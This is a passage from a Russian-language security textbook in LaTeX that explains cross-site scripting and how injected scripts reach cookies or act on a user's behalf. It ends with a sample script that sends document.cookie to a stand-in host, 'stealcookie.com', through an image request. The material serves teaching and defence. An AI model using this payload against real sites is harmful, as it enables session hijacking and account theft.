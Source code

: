 \section{Межсайтовый скриптинг}

Другой вид распространенных программных уязвимостей состоит в некорректной обработке данных, введенных пользователем. Типичные примеры -- отсутствующее или неправильное экранирование специальных символов и полей (например, спецсимволы \texttt{<} и \texttt{>} HTML, кавычки, слэши \texttt{/}, \texttt{\textbackslash}) и отсутствующая или неправильная проверка введенных данных на допустимые значения (например, SQL-запрос к базе данных веб-ресурса вместо логина пользователя).

Межсайтовый скриптинг (Cross-Site Scripting, XSS) заключается во внедрении в веб-страницу злоумышленником $A$ исполняемого текстового скрипта, который будет исполнен браузером клиента $B$. Скрипт может быть на языках JavaScript, VBScript, ActiveX, HTML, Flash. Целью атаки является, как правило, доступ к информации клиента.

Скрипт может получить доступ к cookie-файлам данного сайта, например, с аутентификатором, вставить гиперссылки на свой сайт под видом доверенных ссылок. Вставленные гиперссылки могут содержать информацию пользователя.

Скрипт также может выполнить последовательность HTTP GET- и POST-запросов на веб-сайт для выполнения действий от имени пользователя. Например, вирусно распространить вредоносный JavaScript код со страницы одного пользователя на страницы всех друзей, друзей друзей и т.~д. и затем удалить все данные пользователя. Атака может привести к уничтожению социальной сети.

Приведем пример кражи cookie-файла веб-сайта, который имеет уязвимость на вставку текста, содержащего код, который будет исполнен браузером.


Например, пусть аутентификатор пользователя в cookie-файле сайта \texttt{myemail.com} содержит
\begin{center} \begin{verbatim}
auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

Пусть текстовое сообщение, помещенное пользователем, содержит текстовый скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу.
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

